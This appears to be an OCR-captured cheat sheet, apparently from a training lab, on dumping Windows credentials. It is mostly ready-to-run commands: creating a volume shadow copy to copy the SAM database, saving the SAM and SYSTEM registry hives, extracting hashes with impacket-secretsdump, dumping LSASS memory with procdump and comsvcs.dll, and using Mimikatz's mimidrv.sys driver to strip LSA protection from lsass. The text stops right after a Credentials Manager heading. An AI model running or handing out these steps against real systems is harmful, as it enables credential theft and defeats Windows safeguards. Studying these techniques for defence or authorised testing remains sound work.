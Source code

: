 Volume Shadow Copy Service
steps

    Run the standard cmd.exe prompt with administrator privileges.

    Execute the wmic command to create a copy shadow of C: drive

    wmic shadowcopy call create Volume='C:\'

    Verify the creation from step 2 is available.

    vssadmin list shadows

    Copy the SAM database from the volume we created in step 2
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
    impacket-secretsdump   -sam sam -system system LOCAL


# Registry Hives

reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg


# Local Security Authority Subsystem Service (LSASS)

procdump.exe -accepteula -ma lsass.exe c:\Tools\Mimikatz\lsass_dump

.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full


mimikatz Protected LSASS

In 2012, Microsoft implemented an LSA protection, to keep LSASS from being accessed to extract credentials from memory. This task will show how to disable the LSA protection and dump credentials from memory using Mimikatz. To enable LSASS protection, we can modify the registry RunAsPPL DWORD value in HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa to 1.

mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)

0x00000005 error code message (Access Denied). Lucky for us, Mimikatz provides a mimidrv.sys driver that works on kernel level to disable the LSA protection. We can import it to Mimikatz by executing "!+" as follows,

mimikatz # !+

Note: If this fails with an isFileExist error, exit mimikatz, navigate to C:\Tools\Mimikatz\ and run the command again.

mimikatz # !processprotect /process:lsass.exe /remove



# Credentials Manager

There are four credential categories:
